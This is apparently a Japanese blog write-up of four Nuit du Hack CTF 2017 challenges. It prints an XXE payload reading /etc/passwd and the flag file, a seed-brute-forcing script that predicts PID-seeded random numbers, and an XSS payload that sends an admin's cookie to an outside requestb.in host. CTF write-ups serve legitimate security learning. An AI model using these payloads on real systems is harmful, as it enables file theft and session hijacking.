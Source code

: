 ```yaml
---
layout: post
title: Nuit du Hack CTF Quals 2017 の write-up
categories: [ctf]
date: 2017-04-03 14:30:01 +0900
---
```


チーム Harekaze で [Nuit du Hack CTF Quals 2017](https://quals.nuitduhack.com/) に参加しました。最終的にチームで 410 点を獲得し、順位は 115 位 (得点 378 チーム中) でした。うち、私は 4 問を解いて 410 点を入れました。

以下、解いた問題の write-up です。

## [Web 75] No Pain No Gain

与えられた URL を開いてみると、CSV を HTML に変換できるサービスが動いていました。

```
<!-- Invitations -->
id,name,email
1,name1,email1@mail.com
2,name2,email2@mail.com
```

というような CSV をアップロードしろということなので、試しにこの内容でアップロードしてみると… `Sorry! File type not allowed.` とエラーが出力されました。

Fiddler を使ってアップロード時に `Content-Type: application/octet-stream` から `Content-Type: text/csv` に変えてみると

|ID|Name|Email|
|---|---|---|
|1|name1|email1@example.com|
|2|name2|email2@example.com|

というようなテーブルが出力されました。

`<!--` という内容のファイルを送ってみると、`Could not convert the CSV to XML!` とエラーが出力されました。XML といえば XXE です。試しに

```xml
<!DOCTYPE hoge [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
id,name,email
a,b,&xxe;
```

を送ってみると

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
flag:x:1000:1000::/home/flag:/bin/sh
```

が返ってきました。読むファイルを `/home/flag/flag` に変えてアップロードするとフラグが出力されました。

```
NDH{U3VwZXIgTWFyaW8gQnJvcw0K44K544O844OR44O844Oe44Oq44Kq44OW44Op44K244O844K6DQpTxatwxIEgTWFyaW8gQnVyYXrEgXp1DQrYs9mI2KjYsdmF2KfYsdmK2Yg=}
```

## [Web 100] Slumdog Millionaire

```python
#!/usr/bin/python2.7

import random

import config
import utils


random.seed(utils.get_pid())
ngames = 0


def generate_combination():
    numbers = ""
    for _ in range(10):
        rand_num = random.randint(0, 99)
        if rand_num < 10:
            numbers += "0"
        numbers += str(rand_num)
        if _ != 9:
            numbers += "-"
    return numbers


def reset_jackpot():
    random.seed(utils.get_pid())
    utils.set_jackpot(0)
    ngames = 0


def draw(user_guess):
    ngames += 1
    if ngames > config.MAX_TRIES:
        reset_jackpot()
    winning_combination = generate_combination()
    if winning_combination == user_guess:
        utils.win()
        reset_jackpot()
```

というソース付きの問題でした。

PID を乱数のシードにしており、しかもこれまでにどんな組み合わせが出たかを教えてくれるので簡単に推測ができそうです。

```python
import random

def generate_combination():
  numbers = ""
  for _ in range(10):
    rand_num = random.randint(0, 99)
    if rand_num < 10:
      numbers += "0"
    numbers += str(rand_num)
    if _ != 9:
      numbers += "-"
  return numbers

if __name__ == '__main__':
  import sys
  for x in range(32768):
    random.seed(x)
    for _ in range(10):
      if sys.argv[1] == generate_combination():
        print x
        for _ in range(10):
          print generate_combination()
        break
```

`python s.py 07-94-30-38-33-33-41-95-56-00` といった感じで実行すると次の組み合わせが分かります。

```
God_does_not_pl4y_dic3
```

## [Web 200] Purple Posse Market

与えられた URL を開くとヤバそうなものが売られているショッピングサイトが表示されました。

管理者にメッセージを送ることができるようので試しに `<img src=http://requestb.in/xxxxxxx>` を送ってみると、`Referer: http://localhost:3001/admin/messages/xxx/` でアクセスが来ました。

`<script>(new Image).src='http://requestb.in/xxxxxxx?'+document.cookie;</script>` を送ってみると、`connect.sid=xxx` というような形で管理者の Cookie を得ることができました。

この Cookie を使うとメニューに Profile が増えました。Profile に書かれている IBAN コードがフラグでした。

```
IBAN FR14 2004 1010 0505 0001 3M02 606
```

## [Reverse 35] Matriochka step 1

```
$ file step1.bin
step1.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
```

というバイナリが与えられました。試しに `ltrace ./step1.bin ABCD` を実行してみると

```
$ ltrace ./step1.bin ABCD
__libc_start_main(0x400666, 2, 0x7ffff7b65628, 0x400820 <unfinished ...>
strlen("ABCD")                                                            = 4
strcmp("DCBA", "Tr4laLa!!!")                                              = -16
puts("Try again :("Try again :(
)                                                      = 13
+++ exited (status 0) +++
```

と出力されました。逆さまにした argv[1] と `Tr4laLa!!!` を比較しているようなので `./step1.bin '!!!aLal4rT'` を実行すると

```
$ ./step1.bin '!!!aLal4rT' 2>/dev/null
Well done :)
```

という感じで標準出力には `Well done :)` が、標準エラー出力には step2 の実行ファイルが出力されました。

```
!!!aLal4rT
```
